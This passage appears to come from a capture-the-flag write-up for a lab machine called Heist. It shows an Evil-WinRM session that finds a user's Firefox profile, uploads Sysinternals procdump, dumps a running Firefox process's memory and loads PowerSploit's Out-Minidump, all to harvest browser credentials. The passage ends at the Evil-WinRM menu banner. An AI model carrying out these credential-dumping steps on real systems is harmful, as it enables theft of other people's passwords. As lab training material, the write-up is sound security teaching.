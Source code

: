 
I also see a profile in chase’s `appdata` directory:

    
    
    *Evil-WinRM* PS C:\users\chase\appdata\roaming\Mozilla\Firefox\Profiles> ls
    
    
        Directory: C:\users\chase\appdata\roaming\Mozilla\Firefox\Profiles
    
    
    Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
    ----                -------------         ------ ----                                                                                                                                                                                                    
    d-----        8/23/2019  12:38 PM                77nc64t5.default
    

### Get Creds from Firefox

I’ll show a few different ways to do this.

#### procdump / Out-Minidump

I’ll grab `procdump64.exe` from the [sysinternals tools
page](https://live.sysinternals.com/), and upload it to Heist:

    
    
    *Evil-WinRM* PS C:\Users\Chase\Documents> upload ~/exes/procdump64.exe .
    Info: Uploading ~/exes/procdump64.exe to .
    
    Data: 455560 bytes of 455560 bytes copied
    
    Info: Upload successful!
    

Now I’ll run it on one of the pids for `firefox` from above:

    
    
    *Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64 -ma 6252 -accepteula
    
    ProcDump v9.0 - Sysinternals process dump utility
    Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
    Sysinternals - www.sysinternals.com
    
    [02:54:30] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_190823_025430.dmp
    [02:54:30] Dump 1 writing: Estimated dump file size is 280 MB.
    [02:54:32] Dump 1 complete: 281 MB written in 2.1 seconds
    [02:54:33] Dump count reached.
    

Alternatively, I could create the same dump using
[PowerSploit’s](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-
Minidump.ps1) `Out-Minidump`:

    
    
    *Evil-WinRM* PS C:\users\chase\appdata\local\temp> Out-Minidump.ps1
    *Evil-WinRM* PS C:\users\chase\appdata\local\temp> menu
    
       ___ __ __  ____  _
      /  _]  |  ||    || |
     /  [_|  |  | |  | | |
    |    _]  |  | |  | | |___
    |   [_|  :  | |  | |     |
    |     |\   /  |  | |     |
    |_____| \_/  |____||_____|
    
